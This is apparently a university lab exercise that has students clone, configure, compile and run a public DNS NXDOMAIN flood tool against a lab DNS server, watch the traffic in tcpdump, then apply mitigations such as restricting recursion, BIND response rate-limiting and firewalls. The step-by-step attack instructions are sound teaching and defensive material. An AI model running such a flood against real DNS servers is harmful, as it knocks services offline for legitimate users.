 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```shell-session
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).

:::warning
For the sake of this task, enable recursion for the helper VM. This should be already configured from the previous task, but double check to make sure.
:::

Connect to the helper VM.
Clone the following repository and change the working directory:

```shell-session
[student@helper ~]$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
[student@helper ~]$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```shell-session
[student@helper ~]$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.100.11");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
[student@helper ~]$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM).

:::note
Use <your_last_name>.scgc.ro (the domain you configured earlier) for testing. In the following examples we will be using scgc.ro as our domain.
:::

```shell-session
$ host scgc.ro dns
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```shell-session
$ sudo tcpdump -i virbr-labs udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```shell-session
[student@helper ~]$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```shell-session
$ host scgc.ro 192.168.100.11
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```shell-session
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.100.11.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.100.11.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.100.11.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```nginx
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
